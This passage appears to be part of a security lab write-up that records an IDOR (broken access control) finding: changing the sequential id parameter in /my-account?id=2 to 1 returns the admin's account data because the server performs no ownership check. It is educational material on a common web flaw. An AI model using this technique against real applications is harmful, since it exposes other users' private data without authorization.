

---

## 🔐 Broken Access Control

### 21. Insecure Direct Object Reference (IDOR)

The application used sequential numeric IDs in URLs to identify user resources (e.g. `/my-account?id=2`). No server-side authorization check verified that the requesting user owned the requested resource. By changing the `id` parameter, I accessed another user's account data.

**Steps:**
1. Log in and observe my account URL: `/my-account?id=2`
2. Change the ID to `1` — the admin account
3. Server returned the admin's data with no access check



---


</div>
